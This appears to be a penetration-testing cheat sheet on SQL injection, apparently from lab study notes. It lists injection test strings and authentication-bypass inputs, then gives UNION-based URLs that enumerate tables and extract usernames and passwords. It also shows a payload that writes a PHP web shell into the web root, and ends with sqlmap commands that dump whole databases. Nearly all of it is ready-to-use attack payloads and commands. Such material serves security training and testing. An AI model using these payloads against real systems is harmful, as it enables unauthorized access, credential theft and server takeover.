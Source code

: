# SQL injection

## Basic techniques

Stick `'` in a parameter and see if it throws a database error \(and note what kind\).

Another simple test:

```text
' or '1'='1
```

Other tests:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

## Bypassing authentication

If you find a poorly-sanitized login page, you can attempt to log in without credentials by injecting the username parameter:

```text
username' or 1=1;#
username'-
```

## Database enumeration
The exact syntax for injection will vary by database type. In most lab scenarios, the database will be MySQL.

Get version:

```text
http://[host]/inj.php?id=1 union all select 1,2,3,@@version,5
```
You can get the number of columns through trial and error using `order by`. For each query, increase the column number until the database throws an unknown column error:
```
http://[host]/inject.php?id=54 order by 1
http://[host]/inject.php?id=54 order by 2
http://[host]/inject.php?id=54 order by 3
```
Get the current user:
```
http://[host]/inject.php?id=1 union all select 1,2,3,user(),5
```
See all tables:
```
http://[host]/inject.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables
```
Get column names for a specified table: 
```
http://ip/inject.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'
```
Get usernames and passwords (0x3a means `:`):
```
http://[host]/inject.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users
```
You might be able to write to system files depending on permission levels using MySQL's `INTO OUTFILE` function to create a php shell in the web root: 
```
http://[host]/inject.php?id=54 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
I suspect you could inject a full reverse shell in there too...

## POST parameters
You can also attempt to inject parameters passed using POST requests, but you'll need Burp or Firefox tamper to view and edit them. For example, you can test a parameter by adding a `'` at the end, like `lang=en'`.

## SQLmap

Assuming you've tested a parameter with `'` and it is injectable, run SQL map against the URL:
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbms=mysql
```
It may not run unless you specify the database type.

Get the databases: 
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbs --dbms=mysql
```
Get the tables in a database:
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --tables -D [database name]
```
Get the columns in a table:
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --columns -D [database name] -T [table name]
```
Dump a table:
```
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dump -D [database name] -T [table name]
```
If the URL isn't accessible, you can pass cookie data or authentication credentials to SQLmap by pasting the post request in a file and using the `-r` option:
```
sqlmap -r request.txt
```
If you just need to pass a cookie:
```
sqlmap -u "http://[host]/inject.php" --cookie "PHPSESSID=foobar"
```
## Further reading

* [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Dumping a complete database using SQL injection](https://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/#gref)
* [Hacking node.js and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
* [SQLmap tutorial(https://www.binarytides.com/sqlmap-hacking-tutorial/)
